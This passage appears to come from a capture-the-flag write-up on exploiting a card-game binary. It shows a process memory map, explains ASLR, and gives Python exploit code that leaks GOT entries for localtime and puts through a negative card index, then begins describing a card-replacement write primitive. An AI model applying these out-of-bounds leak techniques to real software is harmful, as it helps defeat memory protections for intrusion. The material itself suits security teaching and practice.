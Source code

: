 ```
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  34000 /usr/lib/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000  36000 /usr/lib/ld-linux-x86-64.so.2
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000      0 [anon_7ffff7ffe]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
    0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]
```

Here, we see that the executable is contiguously mapped at 0x555555554000, and
libc is contiguously mapped at 0x7ffff7dab000. Since this is a debugging environment,
we won't see ASLR's effects, but it will cause these to shift in a real run.

To leak these ASLR offsets, we can use a negative card index to leak addresses in
the GOT, half a byte at a time. Let's set up a function for that.

```python
def read64(r, offset):
    result = 0x0
    shift = 0
    for i in range(offset, offset+16):
        # view a card
        r.sendlineafter(b'option: ', b'1')
        r.sendlineafter(b'view? ', str(i).encode())
        value = int(r.recvline().split(b'(')[-1].strip()[2:-1], 16)
        result |= (value << (shift ^ 4))
        shift += 4
    return result
```

We want to use this to read an uninitialized function, such as `localtime`, to get
the executable's ASLR offset, as well as an initialized function, such as `puts`, to
get the libc ASLR offset.

```python
def main():
    r = conn()
    r.sendlineafter(b'name: ', b'meow')

    # start a game
    r.sendlineafter(b'option: ', b'1')

    # aslr leak
    localtime = read64(r, -464)
    print(hex(localtime))

    # libc leak
    puts = read64(r, -448)
    print(hex(puts))
```

However, these leaks aren't useful if we can't write any data.

### Writing Cards (ft. gambling)

If we look more at the code, we realize we also have the option, once a game,
to replace a card. This allows us to replace a card at an index with a randomly
drawn card.
